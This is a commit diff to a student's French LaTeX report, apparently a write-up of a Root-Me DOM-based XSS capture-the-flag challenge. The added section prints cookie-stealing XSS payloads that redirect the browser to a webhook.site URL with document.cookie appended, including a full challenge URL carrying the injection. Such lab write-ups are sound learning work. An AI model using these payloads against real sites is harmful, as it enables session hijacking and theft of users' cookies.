

Before and after one commit to hugolgs-dev/LaTeX-documents, a LaTeX document (L318/Semaine 2/Ligneres_Hugo_UE_L318_S2.tex): part of page 5 of 5 before the commit and two parts of pages 5 and 6 of 7 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
318 xss v1

```diff
--- a/L318/Semaine 2/Ligneres_Hugo_UE_L318_S2.tex
+++ b/L318/Semaine 2/Ligneres_Hugo_UE_L318_S2.tex
@@ -176,6 +176,28 @@ J'ai dans un premier temps testé l'injection de code JavaScript très simple da
     \caption{Premier test}
 \end{figure}
 
-Maintenant que
+Maintenant que cette simple requête fonctionne, j'ai décidé d'aller un peu plus loin, en essayant d'envoyer une requête depuis le champs du formulaire de la page "Main" vers le site webhook pour voir ce que j'obtiens avec cette requête. \\
 
-Ensuite, webhook
+\textit{NB: À partir de là, j'ai commencer à fouiller différentes ressources pour déterminer l'url de mes requêtes: le forum du challenge sur root-me, dont \href{https://www.root-me.org/fr/Documentation/Web/DOM-Based-XSS?lang=fr}{cette ressource}, ainsi que différents blogs sur le net }\\
+
+
+\url{ d'; document.location="https://webhook.site/ec7d4396-2f5f-436d-bdc7-1db1e8c78cd5?cmd=".concat(document.cookie);//}
+
+\begin{figure}[!h]
+	\centering
+	\includegraphics[scale=.3]{xss_webhook_1.png}
+	\caption{webhook 1}
+\end{figure}
+
+
+J'ai donc essayé de faire la même chose avec la requête depuis le formulaire de contact, cette fois-ci en tenant compte du format imposé dans le champs du formulaire, avec l'url suivante : \url{http://challenge01.root-me.org/web-client/ch32/index.php?number=test\%27;\\\%20document.location=\%22https://webhook.site/ec7d4396-2f5f-436d-bdc7-1db1e8c78cd5?cmd=\%22.concat(document.cookie);//}
+
+
+
+\begin{figure}[!h]
+	\centering
+	\includegraphics[scale=.3]{xss_webhook_2.png}
+	\caption{webhook 2}
+\end{figure}
+
+En bas de la page, on obtiens le flag
```
Also changed, not shown: L318/Semaine 2/Ligneres_Hugo_UE_L318_S2.pdf, L318/Semaine 2/xss_webhook_1.png (added), L318/Semaine 2/xss_webhook_2.png (added), L318/Semaine 2/Ligneres_Hugo_UE_L318_S2.tex (7 more changed lines), 4 other files.
